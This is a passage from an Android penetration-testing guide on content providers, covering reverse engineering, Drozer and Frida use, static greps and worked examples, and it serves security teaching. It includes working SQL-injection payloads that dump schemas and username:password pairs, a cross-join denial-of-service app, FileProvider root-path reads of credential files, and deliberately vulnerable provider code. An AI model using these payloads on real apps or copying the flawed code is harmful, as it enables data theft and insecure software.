distinguish "not implemented" from "implemented and returned nothing", which is good for you as a
defender — but throwing gives your own developers a clear error, and a determined attacker will map
the methods either way. Prefer the version your team can debug; do not rely on the ambiguity as a
control.

Debug-only methods should be compiled out, not merely guarded:

```java
// FIXED — a debug method that cannot exist in a release build
if (BuildConfig.DEBUG) {
    if ("dumpState".equals(method)) { return dumpState(); }
}
```

R8 removes the whole block when `BuildConfig.DEBUG` is a compile-time constant `false`, so the method
name string does not even appear in the release DEX. That is meaningfully stronger than a runtime
check, because it removes the code rather than the reachability.

#### Severity and business impact

| Factor | Assessment |
|---|---|
| Technical severity | **Ranges from Low to Critical entirely depending on the method set.** `getAuthToken` on an unprotected provider is account takeover. `execSql` is arbitrary database read and write. `setServerUrl` is a persistent man-in-the-middle. |
| Exploit complexity | Trivial once the method name is known; the discovery is the work. |
| Preconditions | Exported provider (or one with a `normal` permission) that overrides `call()`. |
| Business impact | This class produces the highest-impact single findings in the chapter, because `call()` methods are written for privileged internal use and therefore *do privileged things*. |
| Detection difficulty | High for the defender. Nothing in the manifest, nothing in the intent filters, no schema. It is invisible to every configuration-level review. |

### 5.6 Denial of service and resource exhaustion

A lesser class, but real, and worth a paragraph in a report because it is often the only thing you can
demonstrate against a well-built provider.

```java
// Attacker app — force the victim to materialise an enormous cross join
Uri u = Uri.parse("content://com.example.app.data/items");
getContentResolver().query(u, null,
        "1=1 AND (SELECT count(*) FROM items a, items b, items c) > 0", null, null);
```

A three-way cross join over a ten-thousand-row table is 10^12 row combinations. The provider's process
will spin at 100% CPU until it is killed. Repeat in a loop from a background service and the target
app becomes unusable and drains the battery.

Other DoS shapes worth trying:

| Technique | Mechanism |
|---|---|
| `applyBatch` with tens of thousands of operations | The whole batch runs in one transaction, holding the database write lock |
| Repeated `openFile` without closing the FD | Exhausts the victim's file-descriptor limit (typically 1024 or 32768), after which every file operation in the victim fails |
| A very large `ContentValues` in `insert` | Binder transaction limit is ~1 MB; a larger parcel throws `TransactionTooLargeException` in the *victim* if it tries to return it |
| Concurrent calls saturating the Binder thread pool | The pool defaults to 15 threads; blocking all of them makes the provider unresponsive to legitimate callers |
| A `sortOrder` of `RANDOM()` over a huge table | Forces a full sort with no index |

Severity is genuinely Low to Medium in most cases: it affects availability of one app on one device,
and the user can force-stop it. Report it, do not oversell it. The exception is a provider that a
system component depends on, where hanging it can degrade the whole device.

### 5.7 OWASP MASVS / MASTG mapping

| Control | Relevance to content providers |
|---|---|
| **MASVS-PLATFORM-1** — "The app uses IPC mechanisms securely" | The primary control. Exported providers, permissions, `call()`, URI grants all land here. |
| **MASVS-PLATFORM-2** — "WebViews are configured securely" | Indirect: a `content://` URI loaded into a WebView with `setAllowContentAccess(true)` reaches providers from JavaScript. See [43-WebView](../43-WebView/README.md). |
| **MASVS-STORAGE-1** — "Sensitive data is stored securely" | A provider is a storage exposure channel; a traversal to `shared_prefs` is a MASVS-STORAGE finding as much as a PLATFORM one. |
| **MASVS-STORAGE-2** — "No sensitive data is exposed unintentionally" | Exported provider data leakage. |
| **MASVS-CODE-4** — "The app validates and sanitises all untrusted input" | SQL injection and path traversal. |
| **MASTG-TEST-0024** onwards (Android platform tests) | The MASTG's "Testing for Vulnerable Implementations of Exported Content Providers" test cases mirror sections 5.1–5.3 above. |

### 5.8 How malware abuses providers

Malware interacts with providers from the *client* side far more than the server side, and the
patterns are worth recognising in a triage:

- **Reading system providers for reconnaissance.** `content://sms/inbox`, `content://call_log/calls`,
  `content://com.android.contacts/data`, and `content://browser/bookmarks` are the classic four. All
  require `dangerous` permissions, so the malware asks for them with a plausible pretext.
- **Reading the SMS provider for one-time passwords.** This is the mechanism behind SMS-based 2FA
  interception in banking trojans, alongside the `NotificationListenerService` route covered in
  [28-Services](../28-Services/README.md).
- **Writing to the settings provider.** `Settings.Secure` and `Settings.Global` are content providers.
  Malware with sufficient privilege writes `enabled_accessibility_services` to enable its own
  accessibility service without user interaction.
- **Enumerating third-party providers looking for unprotected ones.** A generic "data harvester"
  iterates every installed package's providers and tries a query against each. This is the mirror
  image of your own enumeration script, and it is why an unprotected provider is not a theoretical
  risk.
- **Exposing a provider as a C2 channel between a dropper and a payload.** Two cooperating APKs use a
  provider to pass data without a network connection, which evades network-based detection.

### 5.9 Forensic perspective

An examiner cares about providers for three reasons.

**Providers are where the data is.** Reconstructing user activity means reading the SMS, call log,
contacts, calendar and app-specific provider databases — usually from a filesystem image rather than
live, but the schema knowledge is the same.

**URI grants are evidence of inter-app data flow.** `/data/system/urigrants.xml` records persisted
grants: which package was given access to which URI of which provider. That is a direct record of
"this app was given access to that app's data", which can establish a data-exfiltration path.

**Provider access is logged in places you might not expect.** `dumpsys appops` records
`READ_SMS`-class operations with timestamps, and the `AppOpsService` history can show that an app read
the contacts provider at a specific time even after the app is uninstalled.

```bash
# adb shell as root — appops history for a package, useful in incident response
dumpsys appops --package com.suspicious.app
```

---
## 6. Reverse Engineering Perspective

### 6.1 What a provider looks like in the APK

Start with the manifest, because it is the map.

```bash
# host — decode and read the merged manifest as PackageManager sees it
apktool d -f target.apk -o work/
sed -n '/<provider/,/\/provider>\|\/>/p' work/AndroidManifest.xml
```

```bash
# host — cross-check with aapt2, which parses the binary XML independently
aapt2 dump xmltree target.apk --file AndroidManifest.xml | grep -A20 "E: provider"
```

A typical `aapt2` fragment:

```
E: provider (line=48)
  A: http://schemas.android.com/apk/res/android:name(0x01010003)="com.example.app.NotesProvider"
  A: http://schemas.android.com/apk/res/android:exported(0x01010010)=(type 0x12)0xffffffff
  A: http://schemas.android.com/apk/res/android:authorities(0x01010018)="com.example.app.provider"
  A: http://schemas.android.com/apk/res/android:grantUriPermissions(0x0101001b)=(type 0x12)0x0
```

`(type 0x12)0xffffffff` is boolean `true`; `(type 0x12)0x0` is `false`. Learn to read those two,
because they appear everywhere and `apktool`'s prettified output can differ from the raw values in a
crafted APK.

### 6.2 Recognising providers in JADX

A `ContentProvider` subclass is unmistakable in decompiled Java: it extends `ContentProvider` and
implements the six abstract methods. Even after obfuscation, the **method signatures survive**,
because they override framework methods and cannot be renamed:

```java
// JADX output of an obfuscated provider — the shape is still perfectly readable
public class a extends ContentProvider {
    private static final UriMatcher a;
    private b b;

    static {
        UriMatcher uriMatcher = new UriMatcher(-1);
        a = uriMatcher;
        uriMatcher.addURI("com.example.app.provider", "notes", 1);
        uriMatcher.addURI("com.example.app.provider", "notes/#", 2);
    }

    @Override
    public Cursor query(Uri uri, String[] strArr, String str, String[] strArr2, String str2) {
        return this.b.getReadableDatabase().query("notes", strArr, str, strArr2, null, null, str2);
    }

    @Override
    public String getType(Uri uri) { return "vnd.android.cursor.dir/notes"; }

    @Override public Uri insert(Uri uri, ContentValues contentValues) { ... }
    @Override public int delete(Uri uri, String str, String[] strArr) { ... }
    @Override public int update(Uri uri, ContentValues cv, String s, String[] a) { ... }
    @Override public boolean onCreate() { ... }
}
```

This is the single most useful property of provider reverse engineering: **obfuscation cannot hide the
API surface.** Class names, field names and helper-method names disappear; `query(Uri, String[],
String, String[], String)` does not, because ART must be able to dispatch the framework's virtual
call to it. So no matter how aggressively an app is obfuscated, you can always find every provider,
read its `UriMatcher` table, and see whether the caller's arguments are concatenated into SQL.

The strings survive too. `addURI("com.example.app.provider", "notes", 1)` gives you the authority and
every valid path, in one place, in plain text, because they are string constants compared at runtime.

Checklist for reading a provider in JADX:

| Look for | What it tells you |
|---|---|
| The `static {}` block with `addURI` calls | Every valid path and its integer route code |
| `query()` — is `strArr` (projection) passed to `SQLiteDatabase.query` or concatenated? | Projection injection |
| `query()` — is `str` (selection) concatenated into a string before `rawQuery`? | Selection injection |
| `query()` — is `str2` (sortOrder) used raw? | Sort-order injection |
| A `SQLiteQueryBuilder` with `setProjectionMap` / `setStrict` | Evidence the developer defended properly |
| `openFile` / `openAssetFile` overrides | Traversal candidate |
| `call()` override and its `switch` on the method string | The RPC surface |
| `getCallingPackage()` / `Binder.getCallingUid()` / `checkSignatures` | Evidence of a runtime caller check |
| `getContext().enforceCallingPermission(...)` | Manual permission enforcement |

### 6.3 Smali patterns

The provider registration in Smali, from the static initialiser:

```smali
# work/smali/com/example/app/NotesProvider.smali
.method static constructor <clinit>()V
    .locals 3

    new-instance v0, Landroid/content/UriMatcher;
    const/4 v1, -0x1
    invoke-direct {v0, v1}, Landroid/content/UriMatcher;-><init>(I)V
    sput-object v0, Lcom/example/app/NotesProvider;->MATCHER:Landroid/content/UriMatcher;

    const-string v1, "com.example.app.provider"
    const-string v2, "notes"
    const/4 v3, 0x1
    invoke-virtual {v0, v1, v2, v3}, Landroid/content/UriMatcher;->addURI(Ljava/lang/String;Ljava/lang/String;I)V

    const-string v2, "notes/#"
    const/4 v3, 0x2
    invoke-virtual {v0, v1, v2, v3}, Landroid/content/UriMatcher;->addURI(Ljava/lang/String;Ljava/lang/String;I)V

    return-void
.end method
```

A vulnerable `query` that concatenates the selection:

```smali
.method public query(Landroid/net/Uri;[Ljava/lang/String;Ljava/lang/String;[Ljava/lang/String;Ljava/lang/String;)Landroid/database/Cursor;
    .locals 4

    new-instance v0, Ljava/lang/StringBuilder;
    invoke-direct {v0}, Ljava/lang/StringBuilder;-><init>()V

    const-string v1, "SELECT * FROM notes WHERE "
    invoke-virtual {v0, v1}, Ljava/lang/StringBuilder;->append(Ljava/lang/String;)Ljava/lang/StringBuilder;

    # p3 is the caller-supplied `selection` argument — appended raw
    invoke-virtual {v0, p3}, Ljava/lang/StringBuilder;->append(Ljava/lang/String;)Ljava/lang/StringBuilder;

    invoke-virtual {v0}, Ljava/lang/StringBuilder;->toString()Ljava/lang/String;
    move-result-object v2

    iget-object v3, p0, Lcom/example/app/NotesProvider;->db:Landroid/database/sqlite/SQLiteDatabase;
    const/4 v1, 0x0
    invoke-virtual {v3, v2, v1}, Landroid/database/sqlite/SQLiteDatabase;->rawQuery(Ljava/lang/String;[Ljava/lang/String;)Landroid/database/Cursor;
    move-result-object v1
    return-object v1
.end method
```

The signature to recognise, in one sentence: **a `StringBuilder` chain whose `append` arguments include
`p2`, `p3` or `p5` of `query`, terminating in `rawQuery` or `execSQL`.** Parameter numbering in a
virtual method is `p0 = this`, `p1 = uri`, `p2 = projection`, `p3 = selection`, `p4 = selectionArgs`,
`p5 = sortOrder`. If `p4` is the only one that reaches SQL and it goes in as the second argument to
`rawQuery`, the provider is safe.

The `call()` dispatch in Smali is a `sparse-switch` or a chain of `Ljava/lang/String;->equals`:

```smali
.method public call(Ljava/lang/String;Ljava/lang/String;Landroid/os/Bundle;)Landroid/os/Bundle;
    .locals 2

    const-string v0, "getAuthToken"
    invoke-virtual {p1, v0}, Ljava/lang/String;->equals(Ljava/lang/Object;)Z
    move-result v1
    if-eqz v1, :cond_next
    invoke-direct {p0}, Lcom/example/app/NotesProvider;->buildTokenBundle()Landroid/os/Bundle;
    move-result-object v0
    return-object v0

    :cond_next
    const-string v0, "execSql"
    invoke-virtual {p1, v0}, Ljava/lang/String;->equals(Ljava/lang/Object;)Z
    ...
.end method
```

Grepping the Smali tree for the method-name constants is faster than reading the dispatch:

```bash
# host — every string constant compared inside a call() implementation
grep -rn -B2 -A2 "->call(Ljava/lang/String;Ljava/lang/String;Landroid/os/Bundle;)" work/smali/
awk '/\.method public call\(/,/\.end method/' work/smali/com/example/app/NotesProvider.smali \
  | grep "const-string"
```

### 6.4 What obfuscation does and does not do

| Element | Survives R8/ProGuard? | Why |
|---|---|---|
| Provider class name | **Yes**, effectively | The manifest references it by name; R8 keeps it and does not rename it, because renaming would break the manifest (unless the manifest is rewritten too, which the standard toolchain does not do for `android:name`). |
| The six overridden method signatures | **Yes** | They override framework methods. |
| Authority string | **Yes** | It is a manifest attribute and usually also a string constant. |
| Path strings in `addURI` | **Yes** | String constants are not obfuscated by default. |
| `call()` method-name strings | **Yes** | Same. |
| Private helper method and field names | No | Renamed to `a`, `b`, `c`. |
| Control flow | Partially | R8 inlines and merges; commercial obfuscators add flattening. |
| String constants | Only with a string-encryption obfuscator | DexGuard and similar tools encrypt strings, in which case you must hook `String` decryption at runtime or find the decryptor. |

> **Pentester's Note**
> When the strings *are* encrypted, do not fight the decompiler. Hook `UriMatcher.addURI` with Frida
> and launch the app; every route registers itself in plain text at startup. The same trick works for
> `call()`: hook `String.equals` and filter by the receiving object, or hook the provider's own
> `call` and log the method argument, which is a plain string by the time it is compared.
> ```javascript
> // frida -U -f com.example.app -l addurl-dump.js
> Java.perform(function () {
>   var UM = Java.use("android.content.UriMatcher");
>   UM.addURI.implementation = function (auth, path, code) {
>     console.log("[addURI] content://" + auth + "/" + path + "  -> " + code);
>     return this.addURI(auth, path, code);
>   };
> });
> ```

### 6.5 Native providers

A provider written in Java can delegate to native code through JNI, and some do — usually for
encryption or for a custom storage engine. The relevant signatures in a `.so`:

```bash
# host
readelf -s lib/arm64-v8a/libstore.so | grep -i "Java_"
nm -D --defined-only lib/arm64-v8a/libstore.so | grep -i "query\|open\|call"
```

A JNI entry point named `Java_com_example_app_NotesProvider_nativeQuery` tells you the provider hands
attacker-controlled strings to native code, which raises the stakes considerably: injection becomes a
memory-safety question rather than a SQL one. Fuzz the length and encoding of every string parameter,
not just its SQL content, and watch logcat for `SIGSEGV` in the `DEBUG` tag.

---

## 7. Dynamic Analysis

### 7.1 Enumerating providers on a device

Start broad, then narrow.

```bash
# adb shell — every provider registered on the device, with authority and package
dumpsys package providers
```

```bash
# adb shell — just the target's providers, with exported flag and permissions
dumpsys package com.example.app | sed -n '/Provider Resolver Table/,/^ *$/p'
```

```bash
# adb shell — the authoritative per-component record
dumpsys package com.example.app | grep -A12 "Provider{"
```

```bash
# adb shell — currently-instantiated providers and their client references
dumpsys activity providers
```

```bash
# adb shell — one-liner: every authority declared by third-party apps
for p in $(pm list packages -3 | sed 's/package://'); do
  dumpsys package "$p" | grep -oE 'authority=[^ ]+' | sed "s|^|$p |"
done
```

That last loop is the whole-device sweep. On a typical phone it produces a few hundred authorities,
of which perhaps a dozen are exported and unprotected.

### 7.2 The `content` shell command in full

```bash
# adb shell — read
content query --uri content://com.example.app.provider/notes
content query --uri content://com.example.app.provider/notes --projection "_id,title"
content query --uri content://com.example.app.provider/notes --where "title LIKE '%a%'"
content query --uri content://com.example.app.provider/notes --sort "_id DESC"
content query --uri content://com.example.app.provider/notes --user 0
```

```bash
# adb shell — write
content insert --uri content://com.example.app.provider/notes \
  --bind title:s:pwned --bind pinned:b:true --bind rank:i:1
content update --uri content://com.example.app.provider/notes \
  --bind title:s:changed --where "_id=1"
content delete --uri content://com.example.app.provider/notes --where "_id=1"
```

```bash
# adb shell — RPC and files
content call --uri content://com.example.app.provider --method getAuthToken
content call --uri content://com.example.app.provider --method setFlag --arg on \
  --extra k:s:v --extra n:i:7
content read  --uri content://com.example.app.provider/docs/a.pdf > /sdcard/a.pdf
content write --uri content://com.example.app.provider/docs/a.pdf < /sdcard/payload.pdf
```

```bash
# adb shell — gettype is unprotected; use it to probe reachability without permission
content gettype --uri content://com.example.app.provider/notes
```

Bind types for `--bind` and `--extra`:

| Letter | Type |
|---|---|
| `s` | String |
| `i` | int |
| `l` | long |
| `f` | float |
| `d` | double |
| `b` | boolean |
| `n` | null |

> **Warning**
> Everything you run through `content` runs as `shell`, UID 2000, which holds privileges an ordinary
> app does not. A successful `content query` against a provider is **not** proof that a third-party app
> can read it. Confirm every finding with Drozer or a purpose-built test app before it goes in a
> report. Section [7.4](#74-drozer) and [`examples/ProviderProbe/`](examples/) exist for exactly this
> reason.

### 7.3 Distinguishing the error responses

The response to a probe tells you a great deal. Learn these five:

| Response | Meaning |
|---|---|
| `Error while accessing provider: <authority>` followed by `java.lang.SecurityException: Permission Denial: opening provider ... requires <perm>` | The provider exists, is exported or reachable, and demands a permission you lack. Note the permission name — check its `protectionLevel`. |
| `java.lang.SecurityException: Permission Denial: opening provider ... that is not exported from UID ...` | The provider exists but is not exported. Not reachable by an app. |
| `java.lang.IllegalArgumentException: Unknown URI: content://...` | You reached the provider's code. The authority is right and you are past the permission check; only the path is wrong. **This is a successful probe.** |
| `Unable to resolve content provider` / `Could not find provider` | The authority does not exist, or package-visibility rules hide it from you. |
| An empty result with column headers | You reached the data and there are no matching rows. Try a different `--where`. |

> **Pentester's Note**
> The third row is the one to internalise. `IllegalArgumentException: Unknown URI` means **you got
> through the permission check** — the provider's own code ran and rejected your path. That single
> message converts "is this provider reachable?" into "which paths does it accept?", and turns your
> job into wordlist enumeration. Any provider that returns `Unknown URI` to an unprivileged caller is
> worth twenty minutes of path brute-forcing.

### 7.4 Drozer

Drozer runs as an ordinary, unprivileged application, which makes it the right tool for proving
reachability.

```bash
# host — set up
adb install drozer-agent.apk
adb forward tcp:31415 tcp:31415
drozer console connect
```

```
dz> run app.provider.info                              # every exported provider on the device
dz> run app.provider.info -a com.example.app           # just this package
dz> run app.provider.info -p null                      # providers requiring NO permission
dz> run app.provider.finduri com.example.app           # content:// strings mined from the APK
dz> run app.provider.query content://com.example.app.provider/notes
dz> run app.provider.query content://com.example.app.provider/notes --vertical
dz> run app.provider.query content://com.example.app.provider/notes \
        --projection "* FROM sqlite_master WHERE '1'='1"
dz> run app.provider.query content://com.example.app.provider/notes --selection "1=1"
dz> run app.provider.insert content://com.example.app.provider/notes \
        --string title pwned --integer rank 1
dz> run app.provider.update content://com.example.app.provider/notes \
        --selection "_id=1" --string title changed
dz> run app.provider.delete content://com.example.app.provider/notes --selection "_id=1"
dz> run app.provider.read content://com.example.app.provider/docs/../../databases/app.db
dz> run app.provider.download content://com.example.app.provider/docs/x /tmp/x
dz> run scanner.provider.finduris -a com.example.app
dz> run scanner.provider.injection -a com.example.app
dz> run scanner.provider.sqltables -a com.example.app
dz> run scanner.provider.traversal -a com.example.app
```

| Module | What it does | Limitation to know |
|---|---|---|
| `app.provider.info` | Lists providers with authority, exported flag, read/write permissions, `grantUriPermissions` | Subject to package visibility on Android 11+ |
| `app.provider.finduri` | Extracts `content://` strings from the APK's DEX and resources | Misses runtime-constructed URIs |
| `scanner.provider.injection` | Tests selection and projection with `'` payloads | **Does not test sort order** — do that manually |
| `scanner.provider.traversal` | Tries a fixed list of traversal payloads against `openFile` | Fixed list; extend it with encoded variants |
| `scanner.provider.sqltables` | Enumerates tables through injection | Depends on injection already existing |

Drozer has no `call()` module. That gap is why [`scripts/provider-call-fuzz.py`](scripts/provider-call-fuzz.py)
in this chapter exists.

### 7.5 Frida

The chapter ships two complete scripts. The first, [`scripts/hook-provider.js`](scripts/hook-provider.js),
instruments the provider from the *server* side — you attach to the target app and watch every
incoming call:

```javascript
// frida -U -f com.example.app -l scripts/hook-provider.js
// (Full commented version in scripts/; this is the core idea.)
Java.perform(function () {
  var CP = Java.use("android.content.ContentProvider");

  CP.query.overload("android.net.Uri", "[Ljava.lang.String;", "java.lang.String",
                    "[Ljava.lang.String;", "java.lang.String")
    .implementation = function (uri, proj, sel, args, sort) {
      console.log("\n[QUERY] " + uri.toString());
      console.log("  projection = " + (proj === null ? "null" : proj.join(", ")));
      console.log("  selection  = " + sel);
      console.log("  sortOrder  = " + sort);
      console.log("  callerUid  = " + Java.use("android.os.Binder").getCallingUid());
      var c = this.query(uri, proj, sel, args, sort);
      console.log("  -> rows = " + (c === null ? "null" : c.getCount()));
      return c;
    };
});
```

Attaching from the server side is what lets you answer the question the client cannot: *what did the
provider do with my input?* Hooking `SQLiteDatabase.rawQuery` at the same time gives you the compiled
SQL, and the pair of them is a complete injection proof.

### 7.6 Objection

```bash
# host
objection -g com.example.app explore
```

```
com.example.app on (Pixel: 14) [usb] # android hooking list classes | grep -i provider
com.example.app on (Pixel: 14) [usb] # android hooking watch class com.example.app.NotesProvider
com.example.app on (Pixel: 14) [usb] # android hooking watch class_method \
    com.example.app.NotesProvider.query --dump-args --dump-return --dump-backtrace
com.example.app on (Pixel: 14) [usb] # sqlite connect /data/user/0/com.example.app/databases/app.db
com.example.app on (Pixel: 14) [usb] # file download /data/user/0/com.example.app/shared_prefs/auth.xml
```

The `--dump-backtrace` flag is the useful one here: it shows you whether a `query` came from the app's
own UI code or from a Binder thread serving an external caller. `IPCThreadState`/`Transport` frames in
the backtrace mean an external caller.

### 7.7 A complete testing workflow



Step 9 is not optional. Everything before it was done as UID 2000. A finding that cannot be
reproduced from a normal app UID is not a finding about the application; it is a finding about your
shell.

---

## 8. Static Analysis

### 8.1 Manifest triage

```bash
# host — the first four commands of any provider assessment
apktool d -f target.apk -o work/

# 1. Every provider, with all attributes
python3 - <<'PY' 2>/dev/null || sed -n '/<provider/,/>/p' work/AndroidManifest.xml
PY

# 2. Exported providers specifically
grep -B2 -A8 '<provider' work/AndroidManifest.xml | grep -A8 'exported="true"'

# 3. The classic FileProvider misconfiguration
grep -rn "root-path" work/res/xml/

# 4. Every grant-uri-permission rule
grep -A4 "grantUriPermissions" work/AndroidManifest.xml
```

For anything beyond a one-off, use the script in this chapter:

```bash
# host
./scripts/provider-audit.sh target.apk
```

### 8.2 The greps that matter

| Goal | Command |
|---|---|
| Find every provider class | `grep -rln "extends ContentProvider" out/sources/` |
| Find raw SQL construction | `grep -rn "rawQuery\|execSQL" out/sources/` |
| Find concatenation into SQL | `grep -rnE "\"[^\"]*(SELECT|WHERE|ORDER BY)[^\"]*\" *\+" out/sources/` |
| Find `openFile` implementations | `grep -rn "ParcelFileDescriptor openFile\|openAssetFile" out/sources/` |
| Find missing canonicalisation | `grep -rn "openFile" -A20 out/sources/ \| grep -c "getCanonicalPath"` |
| Find `call()` implementations | `grep -rn "public Bundle call" out/sources/` |
| Find intent-redirection deputies | `grep -rn "getParcelableExtra" out/sources/ \| grep -i intent` |
| Find URI grant issuance | `grep -rn "FLAG_GRANT_READ_URI_PERMISSION\|grantUriPermission(" out/sources/` |
| Find caller verification (good sign) | `grep -rn "getCallingPackage\|Binder.getCallingUid\|checkSignatures\|enforceCallingPermission" out/sources/` |
| Find the safe query builder (good sign) | `grep -rn "SQLiteQueryBuilder\|setProjectionMap\|setStrict" out/sources/` |
| Find every content URI string | `grep -rhoE "content://[A-Za-z0-9._/#*-]+" out/sources/ work/res/ \| sort -u` |

That final one is worth running against `res/` as well as `sources/`, because URIs frequently live in
`strings.xml`, in `searchable.xml`, in sync-adapter and account-authenticator XML, and in
`provider_paths.xml`.

### 8.3 Resources and other XML

| File | Why it matters |
|---|---|
| `res/xml/file_paths.xml` (any name; find it via the provider's `<meta-data>`) | The FileProvider roots. `<root-path>` here is a finding. |
| `res/xml/searchable.xml` | Declares a `android:searchSuggestAuthority` — a provider reachable through the system search UI |
| `res/xml/syncadapter.xml` | Names the content authority a sync adapter drives |
| `res/xml/*_preferences.xml` | Occasionally references a `content://` URI for a preference data source |
| `res/values/strings.xml` | URIs and authority names, especially where the authority is built from `@string/authority` |
| `assets/` | Configuration files with endpoint and authority definitions |

```bash
# host — find the FileProvider paths file by following the meta-data reference
grep -A3 "FILE_PROVIDER_PATHS" work/AndroidManifest.xml
ls work/res/xml/
grep -rn "root-path\|external-path" work/res/xml/
```

### 8.4 Gradle and build configuration

```bash
# host — when you have source
grep -rn "applicationId\|manifestPlaceholders" app/build.gradle
grep -rn "provider" app/src/*/AndroidManifest.xml
```

Two things to check in a source review that you cannot see from an APK:

**Manifest merging.** `app/src/main/AndroidManifest.xml` is not the whole story. Build variants
(`app/src/debug/AndroidManifest.xml`) and every AAR dependency contribute. Run
`./gradlew :app:processReleaseManifest` and read
`app/build/intermediates/merged_manifests/release/AndroidManifest.xml`, which is what actually ships.
A debug-only manifest that exports a provider for testing, accidentally merged into release, is a real
and recurring incident.

**`${applicationId}` placeholders.** `android:authorities="${applicationId}.fileprovider"` is correct
practice and means the authority differs per build flavour. A hard-coded authority shared across two
apps causes install conflicts and, more subtly, means the *first* app installed owns the authority —
which is an authority-hijacking issue if a malicious app can register the same authority first.

### 8.5 Automated tools and their blind spots

| Tool | Finds | Misses |
|---|---|---|
| MobSF | Exported providers, `grantUriPermissions`, obvious `rawQuery` concatenation | Sort-order injection, `call()` methods, traversal that needs canonicalisation analysis, deputy chains |
| QARK | Exported providers, some injection patterns | Same |
| Semgrep with mobile rules | Whatever your rules express; good for concatenation patterns | Nothing it has no rule for; write your own |
| `apkleaks` | URIs and endpoints in strings | Everything semantic |
| Drozer scanners | Live injection and traversal against reachable providers | `call()`, sort order, anything needing a specific path |

> **Warning**
> Every one of these tools will report "exported content provider" as a finding on a provider that is
> exported with a `signature` permission and is perfectly safe. Verifying and downgrading those is part
> of your job. A report full of unvalidated tool output is worse than no report, because the client
> stops reading at the first false positive.

---

## 9. Examples

### 9.1 Simple — a minimal, correct, private provider

```java
// app/src/main/java/com/example/notes/NotesProvider.java
package com.example.notes;

import android.content.*;
import android.database.Cursor;
import android.database.sqlite.*;
import android.net.Uri;

public class NotesProvider extends ContentProvider {

    static final String AUTHORITY = "com.example.notes.provider";
    static final Uri    NOTES_URI = Uri.parse("content://" + AUTHORITY + "/notes");

    private static final int NOTES = 1, NOTE_ID = 2;
    private static final UriMatcher M = new UriMatcher(UriMatcher.NO_MATCH);
    static {
        M.addURI(AUTHORITY, "notes",   NOTES);
        M.addURI(AUTHORITY, "notes/#", NOTE_ID);
    }

    private SQLiteOpenHelper helper;

    @Override public boolean onCreate() {
        helper = new SQLiteOpenHelper(getContext(), "notes.db", null, 1) {
            @Override public void onCreate(SQLiteDatabase db) {
                db.execSQL("CREATE TABLE notes (_id INTEGER PRIMARY KEY, title TEXT, body TEXT)");
            }
            @Override public void onUpgrade(SQLiteDatabase d, int o, int n) { }
        };
        return true;
    }

    @Override public Cursor query(Uri uri, String[] proj, String sel, String[] args, String sort) {
        SQLiteDatabase db = helper.getReadableDatabase();
        switch (M.match(uri)) {
            case NOTES:
                return db.query("notes", proj, sel, args, null, null, sort);
            case NOTE_ID:
                return db.query("notes", proj, "_id = ?",
                        new String[]{ uri.getLastPathSegment() }, null, null, null);
            default:
                throw new IllegalArgumentException("Unknown URI: " + uri);
        }
    }

    @Override public Uri insert(Uri uri, ContentValues v) {
        long id = helper.getWritableDatabase().insert("notes", null, v);
        getContext().getContentResolver().notifyChange(NOTES_URI, null);
        return ContentUris.withAppendedId(NOTES_URI, id);
    }

    @Override public int update(Uri uri, ContentValues v, String sel, String[] args) {
        return helper.getWritableDatabase().update("notes", v, sel, args);
    }

    @Override public int delete(Uri uri, String sel, String[] args) {
        return helper.getWritableDatabase().delete("notes", sel, args);
    }

    @Override public String getType(Uri uri) {
        switch (M.match(uri)) {
            case NOTES:   return "vnd.android.cursor.dir/vnd.com.example.notes.note";
            case NOTE_ID: return "vnd.android.cursor.item/vnd.com.example.notes.note";
            default:      throw new IllegalArgumentException("Unknown URI: " + uri);
        }
    }
}
```

```xml
<!-- AndroidManifest.xml -->
<provider
    android:name=".NotesProvider"
    android:authorities="com.example.notes.provider"
    android:exported="false" />
```

This is safe **because it is not exported**.the `query()` method still passes `sel` and
`sort` straight through to `SQLiteDatabase.query()`, which is injectable — it just is not reachable.
This is the most common real configuration: internally-vulnerable code protected only by the export
flag. If a later refactor exports the provider, the vulnerability appears with no change to the Java.

### 9.2 Intermediate — the same provider, exported and vulnerable, plus its exploit

```java
// VULNERABLE variant — exported and building SQL by hand
@Override
public Cursor query(Uri uri, String[] proj, String sel, String[] args, String sort) {
    String cols  = (proj == null) ? "*" : android.text.TextUtils.join(", ", proj);
    String where = (sel == null || sel.isEmpty()) ? "1" : sel;
    String order = (sort == null || sort.isEmpty()) ? "_id" : sort;
    String sql = "SELECT " + cols + " FROM notes WHERE " + where + " ORDER BY " + order;
    android.util.Log.d("NotesProvider", "SQL: " + sql);
    return helper.getReadableDatabase().rawQuery(sql, null);
}
```

```xml
<provider
    android:name=".NotesProvider"
    android:authorities="com.example.notes.provider"
    android:exported="true" />
```

Exploitation, in the order you would actually run it:

```bash
# adb shell — 1. confirm reachability and get the schema in one command
content query --uri content://com.example.notes.provider/notes \
  --projection "(SELECT group_concat(sql, ';') FROM sqlite_master) AS s"
```

```bash
# adb shell — 2. dump everything from a table the schema revealed
content query --uri content://com.example.notes.provider/notes \
  --projection "(SELECT group_concat(username || ':' || password, char(10)) FROM users) AS s"
```

```bash
# adb shell — 3. confirm the selection channel too
content query --uri content://com.example.notes.provider/notes --where "1=1"
```

```bash
# adb shell — 4. and the sort channel, with the overflow oracle
content query --uri content://com.example.notes.provider/notes \
  --sort "CASE WHEN (SELECT count(*) FROM users)>0 THEN _id ELSE abs(-9223372036854775808) END"
```

Because the vulnerable version also logs the SQL, `adb logcat -s NotesProvider` gives you a free
confirmation of exactly what was executed — a reminder that debug logging in a provider is itself a
finding, and a gift when you have it.

### 9.3 Advanced — a `FileProvider` with `root-path`, exploited end to end

```xml
<!-- VULNERABLE — res/xml/file_paths.xml -->
<paths>
    <root-path name="root" path="/" />
</paths>
```

```xml
<!-- AndroidManifest.xml -->
<provider
    android:name="androidx.core.content.FileProvider"
    android:authorities="com.example.docs.fileprovider"
    android:exported="true"
    android:grantUriPermissions="true">
    <meta-data android:name="android.support.FILE_PROVIDER_PATHS"
               android:resource="@xml/file_paths" />
</provider>
```

The combination of `exported="true"` (which no correct FileProvider has) and `<root-path path="/">`
means any app can construct a URI for any file the victim's UID can read.

The URI construction rule for `FileProvider` is: `content://<authority>/<name>/<path relative to root>`.
With `name="root"` and `path="/"`, the root *is* `/`, so the relative path is the absolute path minus
its leading slash:

```bash
# adb shell — read the victim's shared preferences
content read --uri "content://com.example.docs.fileprovider/root/data/user/0/com.example.docs/shared_prefs/auth.xml"
```

```bash
# adb shell — read the victim's database, and its write-ahead log
content read --uri "content://com.example.docs.fileprovider/root/data/user/0/com.example.docs/databases/app.db"     > /sdcard/app.db
